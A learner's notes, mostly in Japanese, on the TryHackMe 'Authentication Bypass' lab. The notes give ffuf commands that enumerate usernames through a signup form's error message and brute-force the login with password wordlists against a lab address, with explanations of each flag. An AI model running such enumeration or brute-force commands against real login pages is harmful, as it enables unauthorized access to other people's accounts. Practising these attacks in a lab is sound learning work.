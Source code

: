 # AuthenticationBypass

'https://tryhackme.com/room/authenticationbypass'

## Task2 Username Enumeration

websiteのエラーメッセージはusernameのリストを作成するのに重要な情報となる。

```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.50.41/customers/signup -mr "username already exists"
```

-w : wordlist利用  
-X: request method指定(defaultはGET)  
-d: 送るデータを特定するオプション  
※変数の名前はhtmlのinspectionで確認できる  
-H: adding additional Header to the request  
→これも開発者モードのnetworkからリクエストヘッダーを確認すること  
-u: specific the URL we are making the request to  
-mr: text on the page we are looking for to validate  


- ffufのダウンロード
'https://github.com/ffuf/ffuf'

補足：  
progressの表示が出てめっちゃ出力結果見づらいけど、テキストに標準出力してあげると結果だけ見えて見やすい！！

```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.50.41/customers/signup -mr "username already exists"　> valid_username.txt

cat valid_username.txt
```


## Task3 Brute Force

task2で特定したusernameを利用してBrute force 攻撃を仕掛ける。  

```bash
user@tryhackme$ ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.50.41/customers/login -fc 200
```

w1 :usernameのリストを指定
w2 :passwordのリストを指定
-fc :HTTP status が 200以外のものをフィルターする。

※valid_username.txtは、名前だけのリストに加工しないといけないので注意

## Task4 Logic Flaw

ダメだ。難しくてちゃんと理解できていない。明日もう一度。